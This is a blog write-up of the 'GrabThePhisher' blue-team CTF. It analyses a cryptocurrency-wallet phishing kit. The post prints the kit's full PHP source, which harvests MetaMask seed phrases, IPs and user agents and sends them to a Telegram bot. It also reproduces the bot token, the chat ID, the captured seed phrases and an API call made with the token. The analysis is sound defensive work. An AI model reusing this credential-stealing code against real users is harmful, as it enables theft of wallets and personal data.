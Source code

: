 Hi,

recently I have finished challenge [grabthephisher](https://cyberdefenders.org/blueteam-ctf-challenges/95) on cyber defenders.org. Let's check how to solve those puzzles.

# Solution

### 1 Which wallet is used for asking the seed phrase?

WWW display 3 wallets:

[![image-1658854441638.png](/images/2022-07-27-CTF-GrabTheOhisher-cyberdefenders.org/image-1658854441638.png)](/images/2022-07-27-CTF-GrabTheOhisher-cyberdefenders.org/image-1658854441638.png)

I checked structure of web site directory. Only one directory contained suspicious PHP script:

```
c75-GrabThePhisher\pankewk\metamask\metamask.php
```

### 2 What is the file name that has the code for the phishing kit?

Suspicious file contains script written in PHP to gather intelligence and data from user.

### 3 In which language was the kit written?

Script is written in PHP language.

### 4 <span class="fw-bold">What service does the kit use to retrieve the victim's machine information?</span>

<span class="fw-bold">Code of the script:</span>

```php
<?php

$request = file_get_contents("http://api.sypexgeo.net/json/".$_SERVER['REMOTE_ADDR']); 
$array = json_decode($request);
$geo = $array->country->name_en;
$city = $array->city->name_en;
$date = date("m.d.Y"); //aaja


/*
 With love and respect to all the hustler out there,
 This is a small gift to my brothers,
 All the best with your luck,
 
 Regards, 
 j1j1b1s@m3r0
  
  */


    $message = "<b>Welcome 2 The Jungle </b> 
    
<b>Wallet:</b> Metamask
<b>Phrase:</b> " . $_POST["data"] . "
<b>IP:</b> " .$_SERVER['REMOTE_ADDR'] . " | " .$geo. " | " .$city. "
<b>User:</b> " . $_SERVER['HTTP_USER_AGENT'] . "";


sendTel($message);  
	
    function sendTel($message){
		$id = "5442785564"; 
        $token = "5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10"; 
		$filename = "https://api.telegram.org/bot".$token."/sendMessage?chat_id=".$id."&text=".urlencode($message)."&parse_mode=html";
		file_get_contents($filename);
        $_POST["import-account__secret-phrase"]. $text = $_POST['data']."\n";;
        @file_put_contents($_SERVER['DOCUMENT_ROOT'].'/log/'.'log.txt', $text, FILE_APPEND);	

    }
    
    
    ?>
    
```

Line 3 shows the phisher is using Sypex Geo service to gather intelligence

```php
$request = file_get_contents("http://api.sypexgeo.net/json/".$_SERVER['REMOTE_ADDR']); 
```

### 5 How many seed phrases were already collected?

Line 36 shows that all gathered data are stored in root directory of web page in log directory in log.txt file.

```php
        @file_put_contents($_SERVER['DOCUMENT_ROOT'].'/log/'.'log.txt', $text, FILE_APPEND);	
```

File log.txt contains 3 entries:

```php
number edge rebuild stomach review course sphere absurd memory among drastic total
bomb stairs satisfy host barrel absorb dentist prison capital faint hedgehog worth
father also recycle embody balance concert mechanic believe owner pair muffin hockey
```

### 6 <span class="fw-bold">Write down the seed phrase of the most recent phishing incident?</span>

<span class="fw-bold">Line 36 shows that script is appending data in log file - FILE\_APPEND. It means that, the last written value will be in last position.</span>

### <span class="fw-bold">7 Which medium had been used for credential dumping?</span>

<span class="fw-bold">Line 34 shows that script is using telegram bot api.</span>

```php
		$filename = "https://api.telegram.org/bot".$token."/sendMessage?chat_id=".$id."&text=".urlencode($message)."&parse_mode=html";
```

### 8 <span class="fw-bold">What is the token for the channel?</span>  


<span class="fw-bold">Line 33 contains variable named $token with value:</span>

```php
        $token = "5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10"; 
```

### 9 What is the chat ID of the phisher's channel?

Line 32 contains variable named $id with value:

```php
		$id = "5442785564"; 
```

### 10 <span class="fw-bold">What are the allies of the phish kit developer?</span>

<span class="fw-bold">Author of phishing script left comment in phishing kit file. Lines 10-18 contains this message. At the end of it author signed message:</span>

```php
/*
 With love and respect to all the hustler out there,
 This is a small gift to my brothers,
 All the best with your luck,
 
 Regards, 
 j1j1b1s@m3r0
  
  */
```

### 11 What is the full name of the Phish Actor?

To answer this I had to get familiar with the telegram bot API. Full description of API is here: [https://core.telegram.org/bots/api#available-methods](https://core.telegram.org/bots/api#available-methods)

I used API method getChat.

All queries to the Telegram Bot API must be served over HTTPS and need to be presented in this form: `https://api.telegram.org/bot<token>/METHOD_NAME`. Like this for example:

```html
https://api.telegram.org/bot5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10/getChat?chat_id=5442785564
```

Response from Telegram API:

```json
{
	"ok": true,
	"result": {
		"id": 5442785564,
		"first_name": "Marcus",
		"last_name": "Aurelius",
		"username": "pumpkinboii",
		"type": "private",
		"photo": {
			"small_file_id": "AQADBQADCbQxG1rVIVYACAIAAxxRakQBAAM7fQl4M-jTyikE",
			"small_file_unique_id": "AQADCbQxG1rVIVYAAQ",
			"big_file_id": "AQADBQADCbQxG1rVIVYACAMAAxxRakQBAAM7fQl4M-jTyikE",
			"big_file_unique_id": "AQADCbQxG1rVIVYB"
		}
	}
}
```

Answer is concatenation of first\_name and last\_name from lines 5 and 6 in the response.

### 12 <span class="fw-bold">What is the username of the Phish Actor?</span>

<span class="fw-bold">Username is present in line 7 of request response.</span>

### END

It was very fun challenge, if you like my solutions read other posts on the blog.

Thank you for reading, have a nice day !
